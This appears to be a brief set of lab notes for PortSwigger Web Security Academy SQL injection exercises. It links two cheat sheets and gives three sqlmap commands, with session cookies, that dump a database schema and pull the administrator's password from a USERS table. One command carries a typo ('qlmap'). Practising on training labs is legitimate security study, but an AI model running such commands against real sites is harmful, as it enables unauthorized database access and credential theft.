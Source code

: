 ____

[https://tib3rius.com/sqli](https://tib3rius.com/sqli) 

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


```bash
sqlmap -u "https://0a9100e603500d0982375131006f00bc.web-security-academy.net/filter?category=Gifts" --cookie="session=7biRvfgHaUlvwd8pXfLeRYKYtYFxAkEx" --level 5 --risk 3 -p category --batch --threads 10 --dbms=postgresql --dump -D public
```


```bash
sqlmap -u "https://0a39002b04d1c3af83dc5ac4006e0063.web-security-academy.net/filter?category=test" --cookie="session=N3QaEz5GFooyaQ4CxomOPoxXWZ7PVdmH" --level 5 --risk 3 -p category --batch --threads 10 --dbms=postgresql -D public --sql-query="SELECT password from USERS where username='administrator'"
```


# TrackingId

```bash
qlmap -u "https://0aef001c04d61b8e81771771008e0081.web-security-academy.net/filter?category=test" --cookie="TrackingId=YJopvpBsdNu7Eti3" --level 5 --risk 3 -p TrackingId --batch --threads 10 --dbms=postgresql -D public --sql-query="SELECT password from USERS where username='administrator'"
```


